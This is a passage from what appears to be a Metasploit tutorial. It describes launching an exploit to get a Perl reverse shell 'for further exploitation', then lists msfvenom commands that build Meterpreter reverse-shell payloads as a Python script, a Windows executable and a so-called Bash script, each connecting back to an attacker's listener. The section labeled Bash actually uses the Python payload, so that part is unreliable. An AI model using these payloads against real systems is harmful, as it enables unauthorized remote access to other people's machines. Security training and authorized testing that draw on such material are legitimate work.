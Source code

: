 	![alt text](images/image-15.png)

Launch the attack by running:
```bash
run
```

---

If successful, you'll see output similar to:

![alt text](images/image-16.png)
You now have a Perl-based reverse shell session on the target machine with access for further exploitation.

### 6. Reverse Shell Payloads Generation
---

To generate reverse shell payloads, we will use msfvenom.

#### Python Reverse Shell
```bash
msfvenom -p python/meterpreter/reverse_tcp LHOST="Local IP for listen" LPORT="port for listen" -o reverse_shell.py
```

#### Exe Reverse Shell
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST="Local IP for listen" LPORT="port for listen" -f exe -o reverse_shell.exe
```

#### Bash Reverse Shell
```bash
msfvenom -p python/meterpreter/reverse_tcp LHOST="Local IP for listen" LPORT="port for listen" -f raw -o reverse_shell.sh
```

---